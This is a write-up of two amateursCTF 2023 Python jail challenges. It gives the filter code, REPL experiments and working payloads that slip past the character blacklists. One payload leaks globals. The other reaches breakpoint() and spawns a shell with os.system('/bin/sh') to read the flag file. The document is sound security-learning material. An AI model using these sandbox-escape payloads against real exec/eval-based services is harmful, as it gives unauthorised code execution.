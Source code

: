 ```yaml
---
title: amateursCTF - Censorship
date: Wed Jul 19 11:38:33 PM +04 2023
categories: [Writeup]
tags: [ctf,amateursctf,amateursctf2023,misc]
---
```


## Censorship

### Description

by `hellopir2 and flocto`

I'll let you run anything on my python program as long as you don't try to print the flag or violate any of my other rules! Pesky CTFers...

Connect: `nc amt.rs 31670`<br>
Downloads: [main.py](https://amateurs-prod.storage.googleapis.com/uploads/3f441bb5364bdc3c29bf52aa2dd4033b915b5f4c72b98416b395ddf15c3051ee/main.py)

### Analysis

Program only allows ascii characters.
`code  =  ascii(input("Give code: "))`

Filter is `flag`, `e`, `t` and `\` (to filter non ascii). 
`if  "flag"  in  code  or  "e"  in  code  or  "t"  in  code  or  "\\"  in  code:`

We need to somehow get flag, since it's defined we can get it from `locals()` or `globals()`.  

The problem is `exec`, because to get output we need something like `print(locals())`, but `t` is filtered and hence payload doesnt work.

```py
➜ python
Python 3.9.5 (tags/v3.9.5:0a7dcbd, May  3 2021, 17:27:52) [MSC v.1928 64 bit (AMD64)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> from flag import flag
>>> _ = flag
>>> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'flag': 'fakeCTF{fake_flag}', '_': 'fakeCTF{fake_flag}'}
>>> dir()
['_', '__annotations__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', 'flag']
>>> globals()[dir()[2]]
<module 'builtins' (built-in)>
>>> globals()[dir()[2]].__dir__()[40]
'print'
>>> vars(globals()[dir()[2]])
... # Outputs {function_name: function} Dictinary
>>> vars(globals()[dir()[2]])[globals()[dir()[2]].__dir__()[40]]
<built-in function print>
>>> vars(globals()[dir()[2]])[globals()[dir()[2]].__dir__()[40]](globals())
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'flag': 'fakeCTF{fake_flag}', '_': 'fakeCTF{fake_flag}'}
```

In short payload calls `__builtins__` as a dict and we access `print` function from `__dir__` (since `t` is filtered) and finally pass `globals()` to print.

### Solution

```powershell
➜ ncat amt.rs 31670
Give code: vars(globals()[dir()[2]])[globals()[dir()[2]].__dir__()[40]](globals())
ord() expected string of length 1, but dict found
Give code: vars(globals()[dir()[2]])[globals()[dir()[2]].__dir__()[42]](globals())
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7fae52883c10>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/app/run', '__cached__': None, 'flag': 'amateursCTF{i_l0v3_overwr1t1nG_functions..:D}', '_': 'amateursCTF{i_l0v3_overwr1t1nG_functions..:D}', 'code': "'vars(globals()[dir()[2]])[globals()[dir()[2]].__dir__()[42]](globals())'"}
Give code:
```

> Flag: amateursCTF{i_l0v3_overwr1t1nG_functions..:D}
{: .prompt-tip }

> `print` function on server was located at index 42
{: .prompt-info }

## Censorship Lite

by `hellopir2 and flocto`

There was clearly not enough censorship last time. This time it's lite:tm:. I'm afraid now you'll never get in to my system! Unfortunate for those pesky CTFers. Better social engineer an admin for the flag!!!!

`nc amt.rs 31671`

Downloads: [main.py](https://amateurs-prod.storage.googleapis.com/uploads/9a5f6a99e002e7a5209df63a34e5fdc426bc69ad8ba8addfd3a7f64797cf78be/main.py)

### Analysis

Code: 
```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "\lite0123456789"]):
                raise ValueError("invalid input")
            exec(eval(code))
        except Exception as err:
            print(err)
```

In this challenge we are restricted to numbers, chars: `[l, i, t, e]` and double quotes `"`.

First I replicated challange with more verbosity and started testing: 
```py
def bypass(code):
    good = True
    for c in "\lite0123456789":
        if c in code:
            print(f"{c} Found In Code! Busted!")
            good = False

    return good

while True:
    code = ascii(input('> Code: '))
    if bypass(code):
        try:
            print('< Code:', code)
            print('< Eval: %s | %s' % (eval(code), eval(eval(code))))
            print('< Exec:', exec(eval(code)))
        except Exception as e:
            print(f"{'-'*20}\n{e}\n{'-'*20}")
```

We are restricted to most functions and the only (useful) function I found to work is `vars()`.
```py
# "vars" returns dictionary which we need to use, but first we need key
>>> vars()  
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>}
>>> [*vars()] # Unpack dictionary keys into list and get list!
['__name__', '__doc__', '__package__', '__loader__', '__spec__', '__annotations__', '__builtins__']
>>> [*vars()][-1] # Access last variable
'__builtins__'
>>> [*vars()][ord('A')-ord('B')] # We need to be sneaky, because digits arent allowed
'__builtins__'
>>> vars()[[*vars()][ord('A')-ord('B')]] # Access dictionary by key
<module 'builtins' (built-in)>
# A bit of a giant leap here, but in short 
# turn `builtins` into list of keys and get key
# In this case I'll be using `breakpoint` cause I thought it would be fun
>>> [*vars(vars()[[*vars()][ord('A')-ord('B')]])][ord('M')-ord('A')]
'breakpoint'
# Assemble payload... god its long... D:
>>> vars(vars()[[*vars()][ord('A')-ord('B')]])[[*vars(vars()[[*vars()][ord('A')-ord('B')]])][ord('M')-ord('A')]]
<built-in function breakpoint>
# Add parantesis at the and and boom! inside PDB (Python Debugger)
>>> vars(vars()[[*vars()][ord('A')-ord('B')]])[[*vars(vars()[[*vars()][ord('A')-ord('B')]])][ord('M')-ord('A')]]()
--Return--
> <stdin>(1)<module>()->None
(Pdb) import os
(Pdb) os.system('cmd') # Im on windows 0w0
Microsoft Windows [Version 10.0.19045.3208]
(c) Microsoft Corporation. All rights reserved.

C:\..\Temp> echo Hallo!
Hallo!
``` 

### Solution 

```bash
➜ ncat amt.rs 31671
Give code: vars(vars()[[*vars()][ord('A')-ord('G')]])[[*vars(vars()[[*vars()][ord('A')-ord('G')]])][ord('M')-ord('A')]]()
--Return--
> <string>(1)<module>()->None
(Pdb) __import__('os').system('/bin/sh')
id
uid=1000 gid=1000 groups=1000
ls
flag.py
run
cat flag.py
flag = "amateursCTF{sh0uld'v3_r3strict3D_p4r3nTh3ticaLs_1nst3aD}"
```

> Flag: amateursCTF{sh0uld'v3_r3strict3D_p4r3nTh3ticaLs_1nst3aD}
{: .prompt-tip }

> `builtins` function on server was located at index `ord('A')-ord('G') => -6`
{: .prompt-info }